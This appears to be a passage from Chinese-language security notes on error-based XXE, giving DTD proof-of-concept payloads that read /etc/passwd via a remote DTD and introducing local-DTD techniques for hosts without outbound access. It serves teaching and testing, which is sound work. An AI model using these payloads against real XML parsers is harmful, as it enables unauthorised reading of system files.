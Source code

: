 error based 通常可在如下场景使用：

- 漏洞环境无法外联，但此时需要结合合适的本地DTD文件进行漏洞利用
- 没有找到回显接口，JDK版本较高，HTTP/FTP带外数据不能有换行符号



如在JDK8u_301下，我们通过HTTP/FTP是无法读取到 /etc/passwd，通过以下POC，在有报错信息的情况下，我们可以类似利用回显型XXE一样进行文件读取：

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'url://%file;'>">

```

```dtd
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % remote_dtd SYSTEM "http://127.0.0.1/err.dtd">
%remote_dtd;
%eval;%send;
]>

```

<img src="XXE概要/err_based_2.png" alt="err_based_2" style="zoom:67%;" />



下面我们说说漏洞环境无法外联的情况下的利用方式

首先内部DTD会优先于外部DTD先被XML处理器解析，而实体的定义不会被覆盖：

<img src="C:\Users\work\AppData\Roaming\Typora\typora-user-images\image-20230509165851337.png" alt="image-20230509165851337" style="zoom:67%;" />

`/tmp/foo.dtd` ，由于需要发生多次错误，这个异常才会被抛出来，我们这里定义两个不同名称的element，并且在其定义中使用 PEReference

```dtd
<!ENTITY foo 'foo'>

<!ELEMENT ele1 (%foo;)>

<!ELEMENT ele2 (%foo;)>
```
